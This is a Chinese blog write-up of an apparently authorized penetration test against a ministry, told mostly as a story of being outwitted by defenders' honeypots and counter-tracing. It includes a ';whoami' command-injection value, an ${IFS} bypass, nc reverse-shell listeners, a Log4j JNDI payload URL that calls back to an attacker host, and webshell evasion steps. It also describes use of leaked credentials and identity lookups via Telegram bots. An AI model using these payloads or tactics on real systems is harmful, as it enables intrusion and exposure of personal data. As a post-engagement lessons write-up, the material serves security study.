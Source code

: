 ```yaml
---
title: 记一次对某部委的渗透测试
published: 2025-03-10
description: ''
image: 'https://tse3-mm.cn.bing.net/th/id/OIP-C.W-oppI6wXTHjwzyCanibogHaEj?w=315&h=194&c=7&r=0&o=5&dpr=1.3&pid=1.7'
tags: [WEB]
category: '网络安全'
draft: false 
lang: ''
---
```


这周接到上面的通知去给某政府单位进行资产梳理和渗透测试，这个单位的安服非常有实力，曾经成功抵御了某带编号的境外apt组织的攻击并给出溯源报告。一开始领导让我去搞这个项目的时候我是很抵触的，毕竟aptxx都打不穿的单位你让我去是不是有点太幽默。转念一想，有机会见识一下顶尖蓝队和企业安全策略也没啥不好的。我就不信邪了看看这怎么个事——当然最后结果也是不出所料的被反清得裤衩都不剩了。以下是整个测试过程的一些印象比较深刻的片段。本文发布已经过目标单位的授权，涉及到的信息图片等均厚码处理，文章内容仅供技术交流使用

![](记一次对某部委的渗透测试/image-20250125234924093.png)

1.前期按部就班做了一些针对性的资产梳理和收集工作，备案反查，子域，ip网段资产，js采集。很快就在某子域下发现一个?str=传参的命令执行漏洞，用最简单的${IFS}就可以绕过过滤执行命令，并且有回显。这个蜜罐还是很明显的，首先洞太突兀了，一级子域下边留这么一个脑残的命令执行到现在还不修我是不信的。第二个，这个str参数在这里没有任何意义，正常用户点击这个web地址的时候用不到，他也实现不了任何业务功能。最后f12看一下页面加载了很多第三方js文件，这也是罐子的一大特征，遂马上跑路，没有中招 

2.利用酷酷习题大法，在tg泄露的几百万行日志.txt中找到了此部委某处资产的账号密码，成功登录

![](记一次对某部委的渗透测试/image-20250125234943243.png)

看起来系统似乎还是挺老的，没有waf，先尝试寻找sql注入，挨个点击可能和数据库交互的页面功能区域，把burp里请求流量全部保存联动sqlmap -r risk=5 level=3开跑，无果，尝试手注依然无果。想要进行后台文件上传，然后发现根本就没有上传点，屋檐了  
继续测试，找到鉴权的api接口，在/api/v2/auth/checkUser/usrid.php 这里，如图，想要垂直越权一下获取管理员权限

![](记一次对某部委的渗透测试/image-20250125235002962.png)

猜测管理员用户名就是admin，passwordComplex参数只要输对了验证码就是0，不用管。temp和最重要的加密的那个_Monster到底是啥玩意，(我真没见过谁家鉴权参数叫这个名字的)，怎么生成的，实在想不明白。想翻阅js看看在前端有无相关的参数的接口，加密了，本人js逆向就是一坨，就在想放弃找越权的时候网站出现了卡顿，这个代码也挺神经的，如果src获取图床url的时候没有成功，会在返回里显示“出现xxx故障错误代码xxx请联系xxxx(软件开发商联系方式)”，6。然后交给社工哥顺利的找到了此套软件的源码

审计鉴权代码发现其实是用一个默认密钥+时间戳+用户名的方式生成了那个_Monster参数，temp参数和越权没关系，系统管理员和普通用户都是一样的，成功通过接口修改_Monster和id的值以admin身份登录入系统

![](记一次对某部委的渗透测试/image-20250125235050598.png)

管理员后台的功能就比较多了，有上传点，而且谢天谢地没有任何对文件后缀的检验，就是上传过后不会回显路径。这个问题不大因为源码都搞到手了，看源码$uploadPath就行。然后就是XG拟态生成器生成免杀webshell上传连接后接管服务器，哥斯拉插件绕过disable_fouction丝滑小连招

![](记一次对某部委的渗透测试/image-20250125235058874.png)

后续通过shell上线c2的时候渗透内网的内容因保密需要无法透露。这个资产打到的只是该部委的一处边缘网段，内网机器虽然挺多但是并非核心生产环境，也没有敏感资料。然而这基本上就是我的全部成绩了，后续就是蓝队高手四擒年某的故事  
  
3.扫到主域名下某路径back.zip内容，一打开看居然是网站源码，各个路径都能对上。审计源码内容，这个info.php的漏洞点代码如下

![](记一次对某部委的渗透测试/image-20250125235109497.png)

有个filter_var()的函数进行过滤，白名单预定义了用户操作，FILTER_SANITIZE_STRING是 PHP 中的一个过滤器，清洗用户字符串输入的 HTML 标签和特殊字符来防止xss，但是这俩过滤都是平时ctf里绕过烂了的东西，/info.php?action=list;whoami 直接命令执行。当时我愣了一下，这个据说抵御过aptxx组织攻击的单位这么简单就搞到主站rce了？转念一想也不是不可能，apt组织写各种免杀和加载器厉害，打突破都是靠钓鱼，我字典好正好扫到.zip直接白盒秒了，遂传参狠狠的写入shell，疑似有宝塔文件锁一类的东西文件无法落地，就执行命令nc反弹了一下到我vps上  

后来我才知道这堆byd安服大玉想象力之丰富，那个back.zip就是他们故意放到服务器上的，压缩包里info.php的内容也是故意这么写的，实际上真正的info.php根本不长这样，传参管道符或者分号的时候后端跟进的代码不是shell_exec()，而是一个他们自研的蜜罐接口，就看哪个冤种发送action=list;，直接标红ip然后态感设备一顿响，我后续执行的所有操作几个值班的蓝队哥看得一清二楚。nc反弹的时候vps地址也漏了。溯到ip一波反清各类c2框架的端口，cs的50050和viper的60000。正好我是超级懒人，接收反弹shell，漏扫，cs和viper和daybreak和灯塔都部署在这台机器上面，而且全都是弱口令，蓝队哥用day或者爆破，拿到了我viper的账号密码，并且不知道通过什么手段经过viper的后台直接拿到了我服务器的ssh账号密码？我ssh连服务器的时候没挂代理，人家在服务器上翻一下登录日志，酒店公网ip遂暴露 

4.具体过程无法透露，通过某设备0day拿到生产环境数据库账号密码，刚刚连上就触发了数据库日志审计秒掐端口禁止外连，最后的危害就是截了张图大概知道了他有哪几个表，数据一点都没能泄露，没脾气。只能安慰自己拔线拔得这么快起码证明没踩到罐子

![](记一次对某部委的渗透测试/image-20250125235140892.png)

 5.整理资产看到某公网oa系统，正好前段时间审了这个oa的sql注入0day，发送poc

![](记一次对某部委的渗透测试/image-20250125235148977.png)

![](记一次对某部委的渗透测试/image-20250125235152348.png)

6.扫到了公网上部署的nacos系统，并且工具检测出来有Hessian反序列化，拿🦶想都知道这种单位不可能傻到公网上放nacos还留着nday不修，一眼罐子，于是没有深入
测试结束过后问了一句，然后人家说这个还真特么不是罐子，只是资产归属不属于他们单位负责，气死我了

7.接下来连续的几天都一点成果没有，对着搜集到的一堆资产扫描器猛扫，连个debug的信息泄露都扫不到。挂burp手动测试功能点，测了半天也没有，源码泄露也找不到，那些个cms也都是自研的或者闭源的，手上无day可打，黑盒真的太难了。转变思路重新收集了一下资产信息拓展攻击面。终于找到了某系统存在Log4j漏洞
使用工具JNDI-Injection-Exploit，直接
`java -jar JNDIExploit.jar -l 8888 -p 6666 -i 本机ip` 

然后`nc -lvvp 10001`开启监听  浏览器打开url访问
http://xxxx.xxxx/solr/admin/cores?action=${jndi:ldap://xxxxx:8888/Basic/ReverseShell/xxxxxx/10001
但是vps上一直收不到shell，有补丁吗？查了一下官方commit里对于Log4j漏洞的修改意见，一个是限制LDAP和RMI的访问类，还有就是
https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3
里边，对于lookup方法的修改，你想要new URI(name)处报错但是name又得被jndi正常识别，这里就只能用marshalsec方法反弹shell了，因为marshalsec构造LADP服务的时候不走那个handle URL的语句块，不会导致解析错误。

不过这种方法复现的话挺麻烦的，要自己写一个Exploit.class放到web服务上，具体步骤看
https://mp.weixin.qq.com/s/4cvooT4tfQhjL7t4GFzYFQ
，这里因为篇幅原因就不多说

拿到shell，机器出网能直接wget下东西，无敌免杀bypass杀软顺利上线cs。这个内网比上文提到的那个重要多了，此时感觉自己非常的黑客，开始幻想自己单兵apt打穿某某部委，开心得不行

![](记一次对某部委的渗透测试/image-20250125235308704.png)

内网部分还是因为保密原因不能提，横向过程中阻力挺大，捣鼓半天一台新的机器都没横向成功。好不容易跌跌撞撞拿到了一台windows的票据，cs上线文件管理看看desktop是咋回事

![](记一次对某部委的渗透测试/image-20250125235317652.png)

在桌面文件夹发现了惊人的Powervpn.exe以及使用手册.pdf，笑嘻了。由于是exe，下载下来先看df报不报毒，df和卡巴都不报毒，丢沙箱看一下，有异常行为，但多半是误报(云沙箱经常犯病) ，感觉文件安全没问题，遂大胆运行  
后来知道这堆蓝队哥居然在内网每台办公机器的桌面都放了钓鱼vpn.exe，无敌了，他也不怕自家员工给他一顿点。并且免杀df火绒360晶核卡巴，甚至反虚拟机，vm运行弹窗提示必须物理机运行(我这种莽夫直接本机右键了，人家白多花了这么个心思)。你自己边界突破进去横向拿到的权限，在这台机器上下的文件，杀软也不报毒，这谁特么能想到是个马子。于是我那台破笔记本也被蓝队控制，然后电脑桌面文件夹里就有简历.doc

总结：花了差不多十天的渗透时间，就只拿下该部委webshell两个，其中一个为gov域名；边缘办公系统内网机器xx台，数据库半个(连上没三分钟就应急了，一条数据没看到，所以算半个)。然后被溯源到攻击服务器一台，通过反制手段拿到部署在上面的viper和cs的账号密码，以及服务器ssh账号密码。被钓鱼导致用于攻击的笔记本被蓝队上线。暴露了酒店公网ip地址，人家只是尊重我的隐私没用蓝队神秘小工具翻我设备而已，不然消费记录结合公网ip地理位置画像一下就知道我酒店门牌号是哪个了。通过笔记本桌面文件里的简历.doc获得了我的姓名手机号qq号和大头照，使用纸飞机酷酷bot轻松反查到身份证号。最后捕获到没利用成功的某oa前台sql注入一个。一句话概括，东西没打到几个底裤漏完，算了一下rating估计在0.4到0.5之间，大败而归

最后交流的时候和人家聊了一下才知道这几个蓝队哥里边有之前大厂实验室的渗透岗，意料之中，只有做过攻击队的老油条才能想出往back.zip里边塞假源码骗人进罐子这样的狠活。一方面人家太懂红队的心理了，完美预判了常见渗透流程中的每一件事情，非常合理且巧妙的在这些过程中给你挖坑。另一方面硬实力也没得说，那个监控特定参数并且能够高交互回显的蜜罐接口是人家自研的产品，自己手搓代码写出来的；绕过各路杀软的钓鱼exe也是人家自己做的免杀(今六月份的做的到现在依然能够bypass各大杀软)，以及通过viper后台拿到服务器ssh权限，这个我至今不知道他们是咋做到的。国护的时候我也拆过那些四蹲五蹲的黑店靶标，都是还没毕业的大学生，技能也只有很被动的封c段加拔线，被打穿了就在裁判那里嘴遁机关枪死不承认。但是这次某部委原厂的安全团队真是打得我没脾气，人家确实是把蓝队和企业安全这块玩明白了。现在网安方面很多文章以及研究都把重点放在了攻击的各种姿势上，往往忽略了防御其实也是一门艺术，能整出很多花样的，不仅仅只有刻板印象里龟缩起来的各种封。这次演练完了也是老老实实认识到了和行业内顶尖高手的差距，之前娱乐圈炸鱼那是心高气傲，现在发现到了高手过招的这个层次自己被别人当鱼炸了，还是得继续多看文章多学习
